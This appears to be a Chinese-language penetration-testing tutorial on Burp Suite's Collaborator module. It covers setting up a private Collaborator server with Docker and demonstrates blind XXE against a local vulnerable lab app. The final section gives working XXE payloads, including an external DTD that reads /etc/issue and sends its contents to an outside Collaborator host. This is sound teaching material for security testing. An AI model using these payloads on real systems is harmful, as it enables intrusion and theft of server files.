




# 0x1 Burp Collaborator的介绍
Burp suite Pro 自从v1.6.15版本开始引入了一种名为Burp Collaborator的模块，该模块的作用简单的说就是集合了DNS log, http_https log和smtp_smtps log的记录器，有点类似国内的Ceye平台。

为了解释这个模块，burp引入了In-band attack与 out-band attack（带内与带外攻击）两个概念，两者最主要的区别在于数据的流动方向和参与者的数量。

带内攻击(In-band attack)是平时最常见的渗透测试模型:


通常在渗透测试过程中，无论是手工还是利用工具都是由攻击端发送含有payload的数据给被攻击端，然后校验被攻击端返回的数据。在这个模型中角色只有两个，流量只有两个信道。

带外攻击(out-band attack)则是Burp Collaborator的攻击模型


在带外攻击中由攻击者发送有害流量到被攻击者，但是数据不会直接返回而是转向了第三方服务器，最后返回被攻击者。在带外攻击中，数据走三个信道，有三个角色。当然有时候第三方服务器和攻击者可以在同一个终端上

Burp Collaborator是一个c/s结构的服务器。在Project options->Misc->Burp Collaborator Server是配置、校验Burp Collaborator服务器的地方

而在Burp->Burp Collaborator Client是查看服务器信息的地方

# 0x2 Burp Collaborator Server的搭建
Burp Collaborator 是一个C/S结构的应用程序，C自然是burp的客户端，S则可以根据情况而定

## 0x01 Burp自带的服务器
Burpsuite自带了一个免费的服务器
前往Project options->Misc->Burp Collaborator Server 点击Run Health Check


然后前往 Burp->Burp Collaborator Client


单击Copy  to clipboard,

然后前往界面,可以看到DNSlog和HTTP log


## 0x02 自建服务器
Burp Collaborator 允许自建服务器，而且自建Collaborator 服务器是不需要Pro授权的。自建服务器根据具体的网络分为两种

###  0x001 内网

优点:方便灵活，在无网络的情况下(比如CTF比赛和内网测试)也可以使用
缺点:无DNS  log，https log和 smtps log

搭建内网环境已经封装成了docker，前往Docker_Server_Inner目录下
```shell
docker-compose build
docker-compose up -d
```


然后copy


### 0x002 外网
与内网搭建相比，外网就比较麻烦了

所需材料:
1. VPS 
2. 域名:(从godaddy买的，然后移交到了cloudflare下进行控制),以my-subdomain-for-burp.luffy.com为例(假域名，需要改成自己的二级域名)
3. LetsEncrypt(免费的ssl加密证书)
4. Burp Suite Pro
5. Docker

#### 0x0001 配置SSL证书

```shell
wget https://raw.githubusercontent.com/certbot/certbot/master/certbot-auto -O /usr/local/bin/certbot-auto
chmod a+x /usr/local/bin/certbot-auto
certbot-auto
certbot-auto certonly -d my-subdomain-for-burp.luffy.com -d *.my-subdomain-for-burp.luffy.com  --server https://acme-v02.api.letsencrypt.org/directory --manual --agree-tos  --email=you-email@qq.com --manual-public-ip-logging-ok --preferred-challenges dns-01
```


然后前往cloudflare添加两个TXT记录
_acme-challenge.my-subdomain-for-burp.luffy.com -> en9Gf...
_acme-challenge.my-subdomain-for-burp.luffy.com -> Ffzzws...


最后生成的证书默认是放在_etc_letsencrypt/目录下的

#### 0x0002 Burp Collaborator Server的配置
将Docker_Server_Internet整个目录上传到VPS上，然后编辑docker-compose.yml


将域名和IP改成对应的二级域名和VPS公网IP地址

```shell
docker-compose build
docker-compose up -d
```


#### 0x0003 修改A记录和NS记录
1. NS 记录指向 ns1.my-subdomain-for-burp.luffy.com
2. A 记录指向公网IP


然后测试，前往Project options->Misc->Burp Collaborator Server 点击Run Health Check


利用curl测试一下


测试成功。

但是Burp Collaborator有一个缺点就是数据无法持久化，Burp Suite 不可能保存Collaborator的上下文。关闭client那么所有的数据就丢失了。现在也只能期待以后Burp会添加这方面的功能了。

现在为止有一个很好的折衷的方案就是在自建的服务器上开启DEBUG功能(我在docker中已经启用了)，查看log信息，Burp自带的服务器就不可能实现了


我把日志内容导向到了logs目录下的burp.log文件


# 0x3 漏洞测试
## 0x01 XXE
前往Docker_vul_JavaVulnerableLab.这个XXE是回显式的 不过我按照盲注的方式测试


```shell
docker-compose build
docker-compose up -d
```

启用之后访问 http://127.0.0.1:8080/vulnerability/Injection/xxe.jsp

标准的请求


回显的payload


忙注的校验漏洞的PAYLOAD
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE ANY [<!ENTITY hello SYSTEM "http://cfv17n86l6ri6atl5kbebbxaa1gr4g.burpcollaborator.net">]><users><username>Neo&hello;</username><email>neo@matrix</email></users>
```





实现文件读取


新建一个evil.xml文件，放在web目录下


```xml
<!ENTITY % file SYSTEM "file:///etc/issue">
<!ENTITY % ent "<!ENTITY data SYSTEM 'http://tzwwz7vl66d1gir1nzihuc4hd8jy7n.burpcollaborator.net/%file;'>">
```

然后修改POST包
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxegsd76 SYSTEM "http://172.168.46.145:6080/evil.xml"> %xxegsd76; %ent; ]><users><username>Neo&data;</username><email>neo@matrix</email></users>
```




引用链接

[Introducing Burp Collaborator | Blog](https://portswigger.net/blog/introducing-burp-collaborator)

[Burpsuite之Burp Collaborator模块介绍 - 小小leo - 博客园](https://www.cnblogs.com/xiaoxiaoleo/p/5724947.html?utm_source=itdadao&utm_medium=referral)

[Running Your Instance of Burp Collaborator Server - Fabio Pires](https://blog.fabiopires.pt/running-your-instance-of-burp-collaborator-server/)

[Deploying a private Burp Collaborator server](https://portswigger.net/burp/documentation/collaborator/deploying)

[Burp Collaborator资源整合 - blacksunny - 博客园](https://www.cnblogs.com/blacksunny/p/8023878.html)

[DNSLog在渗透中的使用 | AdminTony's Blog](http://www.admintony.com/DNSLog%E5%9C%A8%E6%B8%97%E9%80%8F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8.html)

[从 blind XXE 到读取根目录文件](https://paper.tuisec.win/detail/77e971804021874)

[XXE總結 - 掃文資訊](https://hk.saowen.com/a/55b8087bf5c735d6aa7bed67999c487dbd604641d93a6c6353af2af34ce94499)

[XXE总结（小部分自己的）](http://blog.leanote.com/post/xuxi/XXE%E6%80%BB%E7%BB%93)

[從 blind XXE 到讀取根目錄文件 - 掃文資訊](https://tw.saowen.com/a/7ef453e1d9c1d13380d9e6b5a45794537ed9e7c248c0a957a16c096634c4f6a6)